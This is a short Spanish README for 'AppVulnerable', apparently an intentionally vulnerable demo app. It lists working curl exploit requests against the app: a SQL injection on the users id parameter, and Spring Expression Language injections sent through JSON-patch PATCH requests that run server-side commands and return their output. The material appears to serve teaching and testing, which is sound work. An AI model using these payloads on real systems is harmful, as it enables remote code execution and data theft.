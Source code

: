 # AppVulnerable

## Pasos previos

Se debe tener corriendo una base de datos mysql y ejecutar los scripts que estan dentro de la carpeta script para crear la tabla y el usuario que la app usa

## Requests que explotan vulnerabilidades

- curl -X GET localhost:8080/users?id=6%20OR%201=1
	- id es un campo vulnerable a sql injection

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(java.lang.Runtime).getRuntime().exec(\"[comando]\").x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Ejecuta comandos del lado del servidor
	- Pervio a esto se debe crear la /entity/1/ con -> curl -i -X POST -H "Content-Type: application/json" -d '{ "name" : "Test", "attribute" : "foo"}' http://hostname:port/entity

- curl --request PATCH -H "Content-Type: application/json-patch+json" -d '[{ "op" : "replace", "path" : "T(org.springframework.util.StreamUtils).copy(T(java.lang.Runtime).getRuntime().exec(\"ipconfig\").getInputStream(), T(org.springframework.web.context.request.RequestContextHolder).currentRequestAttributes().getResponse().getOutputStream()).x", "value" : "pwned" }]' "http://hostname:port/entity/1/"
	- Permite ver el output de la ejecucion del comando
